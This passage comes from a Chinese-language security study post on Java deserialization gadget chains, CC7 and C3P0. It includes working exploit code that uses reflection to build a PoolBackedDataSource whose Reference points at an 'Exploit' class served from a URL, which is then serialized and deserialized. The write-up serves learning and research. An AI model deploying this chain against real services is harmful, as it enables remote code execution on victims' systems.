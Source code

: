 至于为什么getReference，原因很简单在最后的referenceToObject方法中会调用getFactoryClassName和getFactoryClassLocation 获取类名和类的加载URL，然而这两个方法就是Reference类中的。

```
new Reference("exploit", this.className, this.url);
```

之后正常写主函数即可。

```
public static void main(String[] args) throws Exception`{`
        Constructor con = PoolBackedDataSource.class.getDeclaredConstructor(new Class[0]);
        con.setAccessible(true);
        PoolBackedDataSource obj = (PoolBackedDataSource) con.newInstance(new Object[0]);
        Field conData = PoolBackedDataSourceBase.class.getDeclaredField("connectionPoolDataSource");
        conData.setAccessible(true);
        conData.set(obj, new PoolSource("Exploit", "http://127.0.0.1:8080/"));        
        byte[] serializeData=serialize(obj);
        unserialize(serializeData);
    `}`
```

### <a class="reference-link" name="0x4%20%E9%97%AE%E9%A2%98%E5%88%86%E6%9E%90"></a>0x4 问题分析

**<a class="reference-link" name="connectionPoolDataSource%E7%9A%84%E6%9D%A1%E4%BB%B6%E7%94%B1%E6%9D%A5"></a>connectionPoolDataSource的条件由来**

connectionPoolDataSource对象的结构到底是怎么确定的，主要归结为两点<br>
其一序列化时的参数类型为ConnectionPoolDataSource，因此要实现ConnectionPoolDataSource及其父类的所有接口。

![](https://p2.ssl.qhimg.com/t01f24342a04550cc7e.png)

其二序列化时调用了ConnectionPoolDataSource类型转换后的getReference因此要实现Referenceable接口及其getReference方法

![](https://p4.ssl.qhimg.com/t01b9f86378ad355f7d.png)

最后因为接口中的方法都要实现，所以一些无关紧要的方法可以随意返回



## 0x03 总结

主要学习了CC7和C3P0利用链的原理和构造方式，5.1假期收获颇多，打算接下来有时间好好的总结RMI等远程方法调用的知识。



## 0x04 参考文献

[https://xz.aliyun.com/t/7157](https://xz.aliyun.com/t/7157)<br>[https://www.cnblogs.com/tr1ple/p/12608764.html](https://www.cnblogs.com/tr1ple/p/12608764.html)<br>[https://sec.nmask.cn/article_content?a_id=70074312ac553fcce2c9ead0f951ba63](https://sec.nmask.cn/article_content?a_id=70074312ac553fcce2c9ead0f951ba63)
